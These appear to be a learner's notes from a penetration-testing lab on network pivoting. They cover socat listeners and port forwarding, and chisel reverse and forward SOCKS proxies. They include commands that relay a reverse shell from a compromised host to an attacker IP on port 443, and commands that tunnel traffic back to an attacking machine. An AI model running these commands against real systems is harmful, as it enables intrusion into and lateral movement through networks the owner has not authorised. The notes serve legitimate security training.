 `2.`tcp-l:33060,fork,reuseaddr\`: Creates a TCP listener on localhost (127.0.0.1) at port 33060 with the following options:

* `fork`: Creates a new process for each incoming connection.
* `reuseaddr`: Allows the socket to be reused immediately after it is closed.

3. `tcp:172.16.0.10:3306`: Connects to the specified remote address (172.16.0.10) and port (3306).
4. `&`: Runs the command in the background.

Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?

Use TCP port 8000 for the server listener, and do not background the process.

```
./socat -tcp-l:8000 tcp:172.16.0.200:443
```

**to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process:**

```
./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22&
```

#### Chisel

[Chisel](https://github.com/jpillora/chisel) is an tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not

to show pther file transfer methods, we could use SCP:\
`scp -i KEY chisel user@target:/tmp/chisel-USERNAME`

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`

setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.

On our own attacking box we would use a command that looks something like this:\
`./chisel server -p LISTEN_PORT --reverse &`

This sets up a listener on your chosen `LISTEN_PORT`.

On the compromised host, we would use the following command:\
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`

if we wanted to **Forward proxies**

on the compromised host we would use:\
`./chisel server -p LISTEN_PORT --socks5`

On our own attacking box we would then use:\
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

**remote port** forward is when we connect back from a compromised target to create the forward.
